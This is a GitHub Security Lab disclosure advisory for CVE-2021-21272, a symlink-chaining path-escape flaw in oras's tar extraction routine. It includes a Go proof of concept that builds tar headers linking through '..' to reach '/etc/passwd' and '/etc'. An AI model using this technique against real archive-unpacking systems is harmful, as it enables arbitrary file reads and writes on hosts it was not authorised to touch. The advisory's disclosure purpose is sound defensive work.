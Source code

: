 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-257: The unsafe handling of symbolic links in an unpacking routine in oras - CVE-2021-21272</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/ghsecuritylab">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/61799930?s=35" height="35" width="35">
        <span>GitHub Security Lab</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>11/30/2020: Reported to project maintainers</li>
  <li>12/01/2020: Issue is acknowledged</li>
  <li>01/07/2020: GHSL sends a status update request</li>
  <li>01/22/2020: Fix is published</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The unsafe handling of symbolic links in an unpacking routine may enable attackers to read and/or write to arbitrary locations outside the designated target folder.</p>

<h2 id="product">Product</h2>

<p>oras</p>

<h2 id="tested-version">Tested Version</h2>

<p>Latest commit at the time of reporting (November 27, 2020).</p>

<h2 id="details">Details</h2>

<h3 id="unsafe-handling-of-symbolic-links-in-unpacking-routine">Unsafe handling of symbolic links in unpacking routine</h3>

<p>The routine <a href="https://github.com/deislabs/oras/blob/main/pkg/content/utils.go#L91"><code class="language-plaintext highlighter-rouge">extractTarDirectory</code></a> attempts to guard against creating symbolic links that point outside the directory a tar archive is extracted to. However, a malicious tarball first linking  <code class="language-plaintext highlighter-rouge">subdir/parent</code> to <code class="language-plaintext highlighter-rouge">..</code> (allowed, because <code class="language-plaintext highlighter-rouge">subdir/..</code> falls within the archive root) and then linking <code class="language-plaintext highlighter-rouge">subdir/parent/escapes</code> to <code class="language-plaintext highlighter-rouge">..</code> results in a symbolic link pointing to the tarball’s parent directory, contrary to the routine’s goals.</p>

<p>Proof of concept, using a version of <code class="language-plaintext highlighter-rouge">extractTarDirectory</code> tweaked to accept an array of tar headers instead of working from an actual tar archive:</p>

<div class="language-go highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="k">package</span> <span class="n">main</span>

<span class="k">import</span> <span class="p">(</span>
	<span class="s">"archive/tar"</span>
	<span class="s">"fmt"</span>
  <span class="s">"os"</span>
	<span class="s">"path/filepath"</span>
  <span class="s">"strings"</span>
<span class="p">)</span>

<span class="k">func</span> <span class="n">main</span><span class="p">()</span> <span class="p">{</span>
	<span class="k">var</span> <span class="n">headers</span> <span class="p">[]</span><span class="n">tar</span><span class="o">.</span><span class="n">Header</span> <span class="o">=</span> <span class="nb">make</span><span class="p">([]</span><span class="n">tar</span><span class="o">.</span><span class="n">Header</span><span class="p">,</span> <span class="m">4</span><span class="p">)</span>

	<span class="n">headers</span><span class="p">[</span><span class="m">0</span><span class="p">]</span><span class="o">.</span><span class="n">Name</span> <span class="o">=</span> <span class="s">"foo/subdir/"</span>
	<span class="n">headers</span><span class="p">[</span><span class="m">0</span><span class="p">]</span><span class="o">.</span><span class="n">Typeflag</span> <span class="o">=</span> <span class="n">tar</span><span class="o">.</span><span class="n">TypeDir</span>

	<span class="n">headers</span><span class="p">[</span><span class="m">1</span><span class="p">]</span><span class="o">.</span><span class="n">Name</span> <span class="o">=</span> <span class="s">"foo/subdir/parent"</span>
	<span class="n">headers</span><span class="p">[</span><span class="m">1</span><span class="p">]</span><span class="o">.</span><span class="n">Linkname</span> <span class="o">=</span> <span class="s">".."</span>
	<span class="n">headers</span><span class="p">[</span><span class="m">1</span><span class="p">]</span><span class="o">.</span><span class="n">Typeflag</span> <span class="o">=</span> <span class="n">tar</span><span class="o">.</span><span class="n">TypeSymlink</span>

	<span class="n">headers</span><span class="p">[</span><span class="m">2</span><span class="p">]</span><span class="o">.</span><span class="n">Name</span> <span class="o">=</span> <span class="s">"foo/subdir/parent/passwd"</span>
	<span class="n">headers</span><span class="p">[</span><span class="m">2</span><span class="p">]</span><span class="o">.</span><span class="n">Linkname</span> <span class="o">=</span> <span class="s">"../../etc/passwd"</span>
	<span class="n">headers</span><span class="p">[</span><span class="m">2</span><span class="p">]</span><span class="o">.</span><span class="n">Typeflag</span> <span class="o">=</span> <span class="n">tar</span><span class="o">.</span><span class="n">TypeSymlink</span>

  <span class="n">headers</span><span class="p">[</span><span class="m">3</span><span class="p">]</span><span class="o">.</span><span class="n">Name</span> <span class="o">=</span> <span class="s">"foo/subdir/parent/etc"</span>
	<span class="n">headers</span><span class="p">[</span><span class="m">3</span><span class="p">]</span><span class="o">.</span><span class="n">Linkname</span> <span class="o">=</span> <span class="s">"../../etc"</span>
	<span class="n">headers</span><span class="p">[</span><span class="m">3</span><span class="p">]</span><span class="o">.</span><span class="n">Typeflag</span> <span class="o">=</span> <span class="n">tar</span><span class="o">.</span><span class="n">TypeSymlink</span>

  <span class="n">err</span> <span class="o">:=</span> <span class="n">extractTarDirectory</span><span class="p">(</span><span class="s">"/tmp/extracthere"</span><span class="p">,</span> <span class="s">"foo"</span><span class="p">,</span> <span class="n">headers</span><span class="p">)</span>
  <span class="n">fmt</span><span class="o">.</span><span class="n">Println</span><span class="p">(</span><span class="n">err</span><span class="p">)</span>

<span class="p">}</span>

<span class="k">func</span> <span class="n">extractTarDirectory</span><span class="p">(</span><span class="n">root</span> <span class="kt">string</span><span class="p">,</span> <span class="n">prefix</span> <span class="kt">string</span><span class="p">,</span> <span class="n">headers</span> <span class="p">[]</span><span class="n">tar</span><span class="o">.</span><span class="n">Header</span><span class="p">)</span> <span class="kt">error</span> <span class="p">{</span>
	<span class="k">for</span> <span class="n">_</span><span class="p">,</span> <span class="n">header</span> <span class="o">:=</span> <span class="k">range</span> <span class="n">headers</span> <span class="p">{</span>
		<span class="c">// Name check</span>
		<span class="n">name</span> <span class="o">:=</span> <span class="n">header</span><span class="o">.</span><span class="n">Name</span>
		<span class="n">path</span><span class="p">,</span> <span class="n">err</span> <span class="o">:=</span> <span class="n">filepath</span><span class="o">.</span><span class="n">Rel</span><span class="p">(</span><span class="n">prefix</span><span class="p">,</span> <span class="n">name</span><span class="p">)</span>
		<span class="k">if</span> <span class="n">err</span> <span class="o">!=</span> <span class="no">nil</span> <span class="p">{</span>
			<span class="k">return</span> <span class="n">err</span>
		<span class="p">}</span>
		<span class="k">if</span> <span class="n">strings</span><span class="o">.</span><span class="n">HasPrefix</span><span class="p">(</span><span class="n">path</span><span class="p">,</span> <span class="s">"../"</span><span class="p">)</span> <span class="p">{</span>
			<span class="k">return</span> <span class="n">fmt</span><span class="o">.</span><span class="n">Errorf</span><span class="p">(</span><span class="s">"%q does not have prefix %q"</span><span class="p">,</span> <span class="n">name</span><span class="p">,</span> <span class="n">prefix</span><span class="p">)</span>
		<span class="p">}</span>
		<span class="n">path</span> <span class="o">=</span> <span class="n">filepath</span><span class="o">.</span><span class="n">Join</span><span class="p">(</span><span class="n">root</span><span class="p">,</span> <span class="n">path</span><span class="p">)</span>

		<span class="c">// Create content</span>
		<span class="k">switch</span> <span class="n">header</span><span class="o">.</span><span class="n">Typeflag</span> <span class="p">{</span>
    <span class="k">case</span> <span class="n">tar</span><span class="o">.</span><span class="n">TypeDir</span><span class="o">:</span>
		 	<span class="n">err</span> <span class="o">=</span> <span class="n">os</span><span class="o">.</span><span class="n">MkdirAll</span><span class="p">(</span><span class="n">path</span><span class="p">,</span> <span class="m">0755</span><span class="p">)</span>
		<span class="k">case</span> <span class="n">tar</span><span class="o">.</span><span class="n">TypeSymlink</span><span class="o">:</span>
			<span class="n">err</span> <span class="o">=</span> <span class="n">os</span><span class="o">.</span><span class="n">Symlink</span><span class="p">(</span><span class="n">header</span><span class="o">.</span><span class="n">Linkname</span><span class="p">,</span> <span class="n">path</span><span class="p">)</span>
		<span class="k">default</span><span class="o">:</span>
			<span class="k">continue</span> <span class="c">// Non-regular files are skipped</span>
		<span class="p">}</span>
		<span class="k">if</span> <span class="n">err</span> <span class="o">!=</span> <span class="no">nil</span> <span class="p">{</span>
			<span class="k">return</span> <span class="n">err</span>
		<span class="p">}</span>

		<span class="c">// Change access time and modification time if possible (error ignored)</span>
		<span class="n">os</span><span class="o">.</span><span class="n">Chtimes</span><span class="p">(</span><span class="n">path</span><span class="p">,</span> <span class="n">header</span><span class="o">.</span><span class="n">AccessTime</span><span class="p">,</span> <span class="n">header</span><span class="o">.</span><span class="n">ModTime</span><span class="p">)</span>
	<span class="p">}</span>
  <span class="k">return</span> <span class="no">nil</span>
<span class="p">}</span>


</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This issue may lead to arbitrary file write (with same permissions as the program running the unpack operation) if the attacker can control the archive file. Additionally, if the attacker has read access to the unpacked files, he may be able to read arbitrary system files the parent process has permissions to read.</p>

<h2 id="cve">CVE</h2>
<ul>
  <li>CVE-2021-21272</li>
</ul>

<h2 id="resources">Resources</h2>
<p><a href="https://github.com/deislabs/oras/security/advisories/GHSA-g5v4-5x39-vwhx">GHSA</a></p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GitHub team member <a href="https://github.com/smowton">@smowton (Chris Smowton)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-257</code> in any communication regarding this issue.</p>


